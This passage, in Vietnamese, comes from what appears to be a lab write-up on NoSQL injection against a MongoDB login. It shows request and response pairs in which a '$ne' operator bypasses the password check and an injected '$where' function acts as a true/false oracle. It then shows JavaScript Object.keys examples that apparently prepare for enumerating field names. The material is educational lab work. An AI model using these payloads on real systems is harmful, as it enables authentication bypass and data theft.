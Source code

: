 Lần này không còn thông báo sai tên đăng nhập, mật khẩu nữa mà là `Account locked`. Như vậy nghĩa là kỹ thuật bypass trên có tác dụng nhưng tài khoản đã bị khóa, cần reset password bằng chức năng `Forgot Password`.  

Giờ sửa lại req để thử xét điều kiện được gửi đi trong JSON:  

```
# req condition false

{"username":"carlos","password":{"$ne":""}, "$where":"function(){return 0;}"}
```

```
# response condition false

Invalid username or password 
```
```
# req condition true

{"username":"carlos","password":{"$ne":""}, "$where":"function(){return 1;}"}
```

```
# response condition true

Account locked: please reset your password
```

Sau khi thêm điều kiện where đi kèm trong đối tượng JSON, thì ngoài việc xét đúng sai của `username`, `password` còn cần xét đúng sai của điều kiện.  
Nhận thấy thông báo thay đổi theo điều kiện where nên ta xác định được toán tử where đi kèm được ứng dụng chấp nhận và thực thi.  

Khi học về Mongodb, nếu xét một đối tượng dữ liệu:

```
let userInfo = {
    "_id":"id_auto_created_by_mongodb",
    "username":"input",
    "password":"input",
}

db.users.findOne(userInfo);
```

```
Object.keys(userInfo)
>>> Array(3) [ "_id", "username", "password" ]

Object.keys(userInfo)[0]
>>> "_id"

Object.keys(userInfo)[1]
>>> "username"

Object.keys(userInfo)[2]
>>> "password"

Object.keys(userInfo)[20]
>>> undefined
```
